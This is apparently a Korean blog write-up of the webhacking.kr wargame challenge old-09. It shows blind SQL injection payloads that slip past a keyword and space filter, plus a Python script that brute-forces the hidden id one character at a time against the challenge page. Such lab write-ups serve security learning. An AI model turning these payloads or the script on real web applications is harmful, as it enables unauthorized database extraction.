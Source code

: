 ```yaml
---
title: "[ webhacking.kr ] old-09"
date: "2023-09-26 01:00:00"
categories: [Wargame, webhacking.kr]
tag: [webhacking.kr, web]
---
```


![](/assets/images/2023-09-26-old-09/2023-09-26-10-37-25.png)

1,2,3을 선택할 수 있고, 비밀번호를 입력할 수 있다.

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-38-14.png)
![](/assets/images/2023-09-26-old-09/2023-09-26-10-38-29.png)

1번을 누를 때는 Apple, 2번을 누를 때는 Banana가 나온다.

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-39-54.png)

3번을 누르면 칼럼은 id,no로 구성되어 있고, no=3의 id가 비밀번호라고 적혀있다. 

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-43-21.png)

no에 공백 및 여러 문자열(union, select, char 등) 이 필터링 되어있다. 또한 no의 숫자가 3보다 크거나 쿼리가 false일 경우 아무것도 출력되지 않는다.

따라서 Blind SQL Injection을 시도할 수 있다.

<br>

id의 길이를 찾는 쿼리는 다음과 같이 작성할 수 있다.

<center><h3>no=if(length(id)like({ID 길이}),3,0)</h3></center>

<br>

id의 길이를 확인한 후 id를 찾는 쿼리는 다음과 같다.

<center><h3>no=if(substr(id,{인덱스},1)like({문자의 헥스값}),3,0)</h3></center>

<br>

이를 이용하여 파이썬 코드를 다음과 같이 작성할 수 있다.

```python3
import requests

cookies = {'PHPSESSID': '44cpq3e3pvl1ie5dhlv1bq3f2b'}
keyword = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

def findIdLength():
    for i in range(1,20):
        url = f'https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({i}),3,99)'
        res = requests.get(url=url, cookies=cookies)
        if "Secret" in res.text:
            print(f'[*] ID Length: {i}')
            return i
        
def findIdFullname(id_len):
    id = ''
    for i in range(1,id_len+1):
        for j in keyword:
            url = f'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{i},1)like({hex(ord(j))}),3,99)'
            res = requests.get(url=url, cookies=cookies)
            if "Secret" in res.text:
                id += j
                print(f'[*] ID: {id}')
                break
        
if __name__ == '__main__':
    id_len = findIdLength()
    findIdFullname(id_len)
```

<br>

찾아낸 비밀번호를 입력하면 문제를 풀 수 있다.


![](/assets/images/2023-09-26-old-09/2023-09-26-10-32-45.png)